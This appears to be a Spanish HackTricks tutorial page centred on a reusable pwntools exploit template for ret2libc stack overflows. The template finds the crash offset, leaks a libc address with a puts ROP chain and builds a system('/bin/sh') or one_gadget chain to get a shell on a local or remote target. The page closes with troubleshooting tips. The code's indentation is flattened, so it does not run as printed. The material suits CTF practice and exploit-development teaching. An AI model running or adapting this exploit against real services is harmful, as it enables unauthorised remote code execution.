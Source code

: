 {% hint style="success" %}
Aprende y practica AWS Hacking: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}


{% code title="template.py" %}
```python
from pwn import ELF, process, ROP, remote, ssh, gdb, cyclic, cyclic_find, log, p64, u64  # Import pwntools


###################
### CONNECTION ####
###################
LOCAL = False
REMOTETTCP = True
REMOTESSH = False
GDB = False
USE_ONE_GADGET = False

LOCAL_BIN = "./vuln"
REMOTE_BIN = "~/vuln" #For ssh
LIBC = "" #ELF("/lib/x86_64-linux-gnu/libc.so.6") #Set library path when know it
ENV = {"LD_PRELOAD": LIBC} if LIBC else {}

if LOCAL:
P = process(LOCAL_BIN, env=ENV) # start the vuln binary
ELF_LOADED = ELF(LOCAL_BIN)# Extract data from binary
ROP_LOADED = ROP(ELF_LOADED)# Find ROP gadgets

elif REMOTETTCP:
P = remote('10.10.10.10',1339) # start the vuln binary
ELF_LOADED = ELF(LOCAL_BIN)# Extract data from binary
ROP_LOADED = ROP(ELF_LOADED)# Find ROP gadgets

elif REMOTESSH:
ssh_shell = ssh('bandit0', 'bandit.labs.overthewire.org', password='bandit0', port=2220)
p = ssh_shell.process(REMOTE_BIN) # start the vuln binary
elf = ELF(LOCAL_BIN)# Extract data from binary
rop = ROP(elf)# Find ROP gadgets

if GDB and not REMOTETTCP and not REMOTESSH:
# attach gdb and continue
# You can set breakpoints, for example "break *main"
gdb.attach(P.pid, "b *main")



#########################
#### OFFSET FINDER ######
#########################

OFFSET = b"" #b"A"*264
if OFFSET == b"":
gdb.attach(P.pid, "c") #Attach and continue
payload = cyclic(264)
payload += b"AAAAAAAA"
print(P.clean())
P.sendline(payload)
#x/wx $rsp -- Search for bytes that crashed the application
#print(cyclic_find(0x63616171)) # Find the offset of those bytes
P.interactive()
exit()



####################
### Find Gadgets ###
####################
try:
libc_func = "puts"
PUTS_PLT = ELF_LOADED.plt['puts'] #PUTS_PLT = ELF_LOADED.symbols["puts"] # This is also valid to call puts
except:
libc_func = "printf"
PUTS_PLT = ELF_LOADED.plt['printf']

MAIN_PLT = ELF_LOADED.symbols['main']
POP_RDI = (ROP_LOADED.find_gadget(['pop rdi', 'ret']))[0] #Same as ROPgadget --binary vuln | grep "pop rdi"
RET = (ROP_LOADED.find_gadget(['ret']))[0]

log.info("Main start: " + hex(MAIN_PLT))
log.info("Puts plt: " + hex(PUTS_PLT))
log.info("pop rdi; ret  gadget: " + hex(POP_RDI))
log.info("ret gadget: " + hex(RET))


########################
### Find LIBC offset ###
########################

def generate_payload_aligned(rop):
payload1 = OFFSET + rop
if (len(payload1) % 16) == 0:
return payload1

else:
payload2 = OFFSET + p64(RET) + rop
if (len(payload2) % 16) == 0:
log.info("Payload aligned successfully")
return payload2
else:
log.warning(f"I couldn't align the payload! Len: {len(payload1)}")
return payload1


def get_addr(libc_func):
FUNC_GOT = ELF_LOADED.got[libc_func]
log.info(libc_func + " GOT @ " + hex(FUNC_GOT))
# Create rop chain
rop1 = p64(POP_RDI) + p64(FUNC_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)
rop1 = generate_payload_aligned(rop1)

# Send our rop-chain payload
#P.sendlineafter("dah?", rop1) #Use this to send the payload when something is received
print(P.clean()) # clean socket buffer (read all and print)
P.sendline(rop1)

# If binary is echoing back the payload, remove that message
recieved = P.recvline().strip()
if OFFSET[:30] in recieved:
recieved = P.recvline().strip()

# Parse leaked address
log.info(f"Len rop1: {len(rop1)}")
leak = u64(recieved.ljust(8, b"\x00"))
log.info(f"Leaked LIBC address,  {libc_func}: {hex(leak)}")

# Set lib base address
if LIBC:
LIBC.address = leak - LIBC.symbols[libc_func] #Save LIBC base
print("If LIBC base doesn't end end 00, you might be using an icorrect libc library")
log.info("LIBC base @ %s" % hex(LIBC.address))

# If not LIBC yet, stop here
else:
print("TO CONTINUE) Find the LIBC library and continue with the exploit... (https://LIBC.blukat.me/)")
P.interactive()

return hex(leak)

get_addr(libc_func) #Search for puts address in memmory to obtain LIBC base



#############################
#### FINAL EXPLOITATION #####
#############################

## Via One_gadget (https://github.com/david942j/one_gadget)
# gem install one_gadget
def get_one_gadgets(libc):
import string, subprocess
args = ["one_gadget", "-r"]
if len(libc) == 40 and all(x in string.hexdigits for x in libc.hex()):
args += ["-b", libc.hex()]
else:
args += [libc]
try:
one_gadgets = [int(offset) for offset in subprocess.check_output(args).decode('ascii').strip().split()]
except:
print("One_gadget isn't installed")
one_gadgets = []
return

rop2 = b""
if USE_ONE_GADGET:
one_gadgets = get_one_gadgets(LIBC)
if one_gadgets:
rop2 = p64(one_gadgets[0]) + "\x00"*100 #Usually this will fullfit the constrains

## Normal/Long exploitation
if not rop2:
BINSH = next(LIBC.search(b"/bin/sh")) #Verify with find /bin/sh
SYSTEM = LIBC.sym["system"]
EXIT = LIBC.sym["exit"]

log.info("POP_RDI %s " % hex(POP_RDI))
log.info("bin/sh %s " % hex(BINSH))
log.info("system %s " % hex(SYSTEM))
log.info("exit %s " % hex(EXIT))

rop2 = p64(POP_RDI) + p64(BINSH) + p64(SYSTEM) #p64(EXIT)
rop2 = generate_payload_aligned(rop2)


print(P.clean())
P.sendline(rop2)

P.interactive() #Interact with your shell :)
```
{% endcode %}

# Problemas comunes

## MAIN\_PLT = elf.symbols\['main'] no encontrado

Si el símbolo "main" no existe (probablemente porque es un binario reducido). Entonces puedes simplemente buscar dónde está el código principal:
```python
objdump -d vuln_binary | grep "\.text"
Disassembly of section .text:
0000000000401080 <.text>:
```
y establecer la dirección manualmente:
```python
MAIN_PLT = 0x401080
```
## Puts no encontrado

Si el binario no está utilizando Puts, debes verificar si está utilizando

## `sh: 1: %s%s%s%s%s%s%s%s: not found`

Si encuentras este **error** después de crear **todo** el exploit: `sh: 1: %s%s%s%s%s%s%s%s: not found`

Intenta **restar 64 bytes a la dirección de "/bin/sh"**:
```python
BINSH = next(libc.search("/bin/sh")) - 64
```
{% hint style="success" %}
Aprende y practica Hacking en AWS: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
